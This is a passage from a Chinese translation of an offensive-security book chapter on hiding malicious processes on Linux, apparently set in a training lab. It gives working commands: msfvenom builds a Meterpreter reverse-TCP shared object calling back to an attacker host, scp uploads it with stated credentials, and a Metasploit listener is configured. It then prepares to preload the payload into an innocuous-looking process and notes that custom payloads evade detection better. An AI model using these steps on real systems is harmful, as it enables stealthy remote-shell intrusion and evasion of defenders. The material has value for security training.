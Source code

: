 > 注意

*下载本章的脚本*，请访问[`github.com/dolevf/Black-Hat-Bash/blob/master/ch12`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch12)。

## 隐藏恶意进程

防御工具通常通过系统上运行的异常进程来识别恶意活动。在本节中，我们将考虑三种方法来使恶意进程保持隐匿：将恶意共享库预加载到一个无害进程中、隐藏进程的执行、以及将进程名称更改为伪装成合法进程。

### 库预加载

让我们使用 LD_PRELOAD 来预加载一个恶意共享库。这个环境变量接受一个用户指定的共享对象列表，在所有其他对象之前加载。我们将在 Kali 上设置一个监听器，并在*p-jumpbox-01*（172.16.10.13）上的进程上执行共享库预加载。

作为我们的恶意代码，我们将使用 Metasploit 的*Meterpreter*有效载荷，这是 Metasploit 框架的一部分，能够为攻击者提供一个交互式 shell。在 Kali 上，运行以下命令来生成一个 Meterpreter 共享对象：

```
$ **msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.10.1 LPORT=2222 -f**
**elf-so > meterpreter.so** 
```

这个命令使用了 reverse_tcp 有效载荷，它将在本地主机地址 172.16.10.1（Kali 的地址）上绑定，在本地端口 2222/TCP 上，使用 elf-so 格式。然后，它会将输出重定向到*meterpreter.so*。运行 file 命令查看该文件的格式：

```
$ **file meterpreter.so**

meterpreter.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
dynamically linked, stripped 
```

然后，你可以使用 scp 将此文件上传到*p-jumpbox-01*机器：

```
$ **scp -O meterpreter.so backup@172.16.10.13:/tmp**
```

这个命令使用了备份用户。记住他们的密码是*backup*。

> 注意

*请注意，系统上运行的任何终端安全防护控制可能会通知安全分析人员 Meterpreter 有效载荷的存在。通常，编写自己的有效载荷往往是确保操作不被发现的更有效方法。*

接下来，在 Kali 上运行 msfconsole 启动 Metasploit，然后设置 TCP 监听器：

```
msf > **use exploit/multi/handler**
msf > **set payload linux/x64/meterpreter/reverse_tcp**
msf > **set LHOST 172.16.10.1**
msf > **set LPORT 2222**
msf > **run** 
```

这个监听器将在我们预加载 Meterpreter 共享对象后建立一个 Meterpreter 会话。

我们希望将 Meterpreter 有效载荷加载到一个看起来无害的进程中。让我们看看 *p-jumpbox-01*（172.16.10.13）上当前运行的进程：

```
$ **ps aux**

USER    PID %CPU %MEM   STAT START   TIME COMMAND
root      1  0.0  0.0   Ss   Nov23   0:00 /bin/sh -c service ssh restart && tail -f /dev/null
**root     17  0.0  0.0   Ss   Nov23   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups**
root     28  0.0  0.0   S    Nov23   0:38 tail -f /dev/null
root  30238  0.0  0.0   Ss   Nov28   0:00 bash
root  37405  100  0.0   R+   03:14   0:00 ps aux 
```
